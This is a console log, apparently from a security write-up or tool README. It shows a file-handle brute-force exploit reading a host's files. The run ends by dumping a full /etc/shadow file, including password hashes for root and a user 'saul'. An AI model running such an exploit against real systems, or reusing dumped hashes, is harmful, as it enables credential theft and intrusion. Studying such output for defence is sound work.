 ```shell
[*] Brute forcing remaining 32bit. This can take a while...
[*] (etc) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x01, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[*] Resolving 'shadow'
[*] Found modules-load.d
[*] Found lsb-release
[*] Found rsyslog.conf
[*] Found rc6.d
[*] Found calendar
[*] Found fstab
[*] Found shadow
[+] Match: shadow ino=393228
[*] Brute forcing remaining 32bit. This can take a while...
[*] (shadow) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x0c, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0x0c, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Win! /etc/shadow output follows:
root:$6$9GrOpvcijuCP93rg$tkcyh.ZwH5w9AHrm66awD9nLzMHv32QqZYGiIfuLow4V1PBkY0xsKoyZnM3.AI.yGWfFLOFDSKsIR9XnKLbIY1:19066:0:99999:7:::
daemon:*:18659:0:99999:7:::
bin:*:18659:0:99999:7:::
sys:*:18659:0:99999:7:::
sync:*:18659:0:99999:7:::
games:*:18659:0:99999:7:::
man:*:18659:0:99999:7:::
lp:*:18659:0:99999:7:::
mail:*:18659:0:99999:7:::
news:*:18659:0:99999:7:::
uucp:*:18659:0:99999:7:::
proxy:*:18659:0:99999:7:::
www-data:*:18659:0:99999:7:::
backup:*:18659:0:99999:7:::
list:*:18659:0:99999:7:::
irc:*:18659:0:99999:7:::
gnats:*:18659:0:99999:7:::
nobody:*:18659:0:99999:7:::
systemd-network:*:18659:0:99999:7:::
systemd-resolve:*:18659:0:99999:7:::
systemd-timesync:*:18659:0:99999:7:::
messagebus:*:18659:0:99999:7:::
syslog:*:18659:0:99999:7:::
_apt:*:18659:0:99999:7:::
tss:*:18659:0:99999:7:::
uuidd:*:18659:0:99999:7:::
tcpdump:*:18659:0:99999:7:::
landscape:*:18659:0:99999:7:::
pollinate:*:18659:0:99999:7:::
usbmux:*:18849:0:99999:7:::
sshd:*:18849:0:99999:7:::
systemd-coredump:!!:18849::::::
lxd:!:18849::::::
saul:$6$19rUyMaBLt7.CDGj$ik84VX1CUhhuiMHxq8hSMjKTDMxHt.ldQC15vFyupafquVyonyyb3/S6MO59tnJHP9vI5GMvbE9T4TFeeeKyg1:19058:0:99999:7:::
```
